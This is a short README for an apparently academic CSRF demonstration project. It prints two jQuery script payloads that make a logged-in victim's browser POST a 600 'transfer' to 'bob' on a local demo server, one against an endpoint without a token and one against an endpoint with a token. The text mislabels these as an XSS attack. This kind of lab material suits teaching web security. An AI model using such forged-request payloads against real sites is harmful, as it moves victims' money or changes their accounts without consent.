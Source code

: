 # CSRF-attack

CSRF is a type of malicious exploit of a website where unauthorized commands are transmitted 
from a user that the web application trusts.

## Getting Started

Clone the project to your computer.

### Working framwork
Webstorm by jetbrains . can be download [here](https://www.jetbrains.com/webstorm/whatsnew/)

### Installing

Install nodejs and express .

## Running 

Run the project . 
Run XSS attack with the following scripts:

### without token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js">
</script><script>$.ajax({type: 'POST',url: 'http://localhost:3000/transfer',data:
{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>
```
### with token:
```
<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>
<script>$.ajax({type: 'POST',url: 'http://localhost:3000/tokenTransfer',crossDomain: true,
data:{'dest':'bob','amount':'600'},xhrFields:{ withCredentials: true},success:function(msg){}});</script>

```
 
 ## Authors

* **Galit Vaknin** - [Galit1321](https://github.com/Galit1321)

* **Ifat Neumann** - [neumani1](https://github.com/neumani1)

* **Michal Shawat** - [michalShawat](https://github.com/michalShawat)

## Acknowledgments

* The BIU Center for Research in Applied Cryptography and Cyber Security in Bar-Ilan University
